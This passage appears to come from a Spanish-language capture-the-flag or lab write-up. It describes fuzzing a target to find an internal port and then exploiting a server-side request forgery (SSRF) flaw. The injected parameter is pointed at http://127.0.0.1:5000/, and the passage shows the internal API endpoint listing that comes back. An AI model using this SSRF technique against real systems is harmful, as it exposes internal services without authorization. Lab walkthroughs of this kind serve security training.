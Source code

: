 <figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

Y le daremos a `Start Attack`, una vez que el ataque haya terminado, haremos lo siguiente...

Filtraremos para que no nos muestre lo siguiente `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` y nos aparecera solo un puerto el `5000`...

Si ahora donde es injectable el `SSRF` haremos lo siguiente...

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

En ese parametro ponemos lo siguiente descubierto...

```
http://127.0.0.1:5000/
```

Y cargara algo en la imagen, si vamos a ese link, te descargara lo siguiente...

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
```